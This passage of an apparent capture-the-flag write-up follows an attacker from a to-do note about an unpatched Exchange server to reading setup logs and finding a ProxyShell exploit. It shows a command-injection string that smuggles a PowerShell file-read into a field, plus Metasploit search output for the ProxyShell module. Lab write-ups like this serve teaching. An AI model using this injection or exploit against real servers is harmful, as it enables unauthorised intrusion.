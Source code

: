 ```
Install the Security Update for MS Exchange [TO BE DONE]
Setup LAPS [TO BE DONE]


When you are done with the tasks please send an email to:

joe@thm.local
carol@thm.local
and do not forget to put in CC the infra team!
dev-infrastracture-team@thm.local
```
What caught my attention was the mention of `"Install the Security Update for MS Exchange [TO BE DONE]."`

I search through the system files to find anything related to **Exchange** and find the following logs:

```
BitlockerActiveMonitoringLogs'); Get-Content C:\ExchangeSetupLogs\UpdateCas.log  ;  #(
```

![exversion](/images/lookback/exchange%20version.png)

Now that I know the version of the installed MS Exchange service, I begin searching the web for existing exploits and come across [this vulnerability](https://www.rapid7.com/db/modules/exploit/windows/http/exchange_proxyshell_rce/).


I launch **Metasploit**, search the database, select the appropriate exploit, configure it accordingly, and execute it.

```console
msf6 > search CVE-2021-31207

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE
   1    \_ target: Windows Powershell               .                .          .      .
   2    \_ target: Windows Dropper                  .                .          .      .
   3    \_ target: Windows Command                  .                .          .      .


Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/http/exchange_proxyshell_rce                                                                                                                    
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command'
```